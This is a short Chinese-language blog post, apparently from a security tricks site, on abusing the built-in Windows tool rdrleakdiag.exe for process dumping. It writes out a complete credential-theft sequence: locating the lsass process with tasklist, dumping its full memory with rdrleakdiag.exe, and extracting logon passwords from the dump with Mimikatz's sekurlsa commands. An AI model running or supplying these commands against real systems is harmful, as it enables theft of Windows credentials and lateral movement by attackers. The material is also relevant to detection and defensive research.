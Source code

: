 ```yaml
---
layout: post
title: "使用 rdrleakdiag.exe 转储进程"
tags: [Process_Dump, Tricks]
comments: true
---
```


# rdrleakdiag.exe

最近在 Twitter 看到有安全研究员公示了一个用于进程转储的工具，且在 Windows 的多版本中属于系统自带的程序，如果目标不存在此程序，也可以上传执行，程序本身的目的是用于资源泄露诊断，但是现在可以利用它转储指定的进程，推主贴出了用于进程转储的参数；

![](https://xxxeyj.github.io/images/20-09-15_ONE.PNG)

在 Windows 10 操作系统共发现了四个  "rdrleakdiag.exe" 程序；

在这里我们以 " C:\\Windows\System32" 目录下的 "rdrleakdiag.exe" 用作测试，首先使用 cmd 命令查找 lsass 进程的 pid；

```cmd
tasklist /svc | findstr lsass
```

![](https://xxxeyj.github.io/images/20-09-15_TWO.PNG)

可以看到 lsass 的进程 pid 为 548；

使用如下命令转储进程；
```cmd
rdrleakdiag.exe /p 548 /o C:\Users\Administrator\Desktop\ /fullmemdmp /wait 1
```
![](https://xxxeyj.github.io/images/20-09-15_THREE.PNG)

可以看到桌面上已经生成了两个文件，将其 dmp 拷贝至 Mimikatz 目录下，而后使用 Mimikatz 载入 dmp 文件，使用如下两条命令即可；
```mimikatz
sekurlsa::minidump minidump_548.dmp
sekurlsa::logonpasswords
```
![](https://xxxeyj.github.io/images/20-09-15_FOUR.PNG)

## Reference

[](https://twitter.com/0gtweet/status/1299071304805560321)
